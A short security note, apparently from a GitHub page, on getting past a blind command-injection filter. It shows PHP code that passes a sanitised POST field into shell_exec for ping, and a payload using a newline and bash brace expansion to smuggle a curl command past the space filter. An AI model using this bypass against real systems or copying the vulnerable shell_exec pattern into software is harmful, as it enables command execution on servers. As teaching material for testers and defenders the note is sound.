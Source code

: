 # Blind command injection filter bypass
If we had a filter similar to this:
```
$domain = @preg_replace("/[^\S\r\n]/","",@preg_replace("/[\\\|;$`&<>]/", "", trim($_POST["domain"])));
$response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$domain."'");

```

We can then use brace expansion to bypass space and execute our command.

EX:
payload :``8.8.8.8%0A{curl,127.0.0.1:9999}``

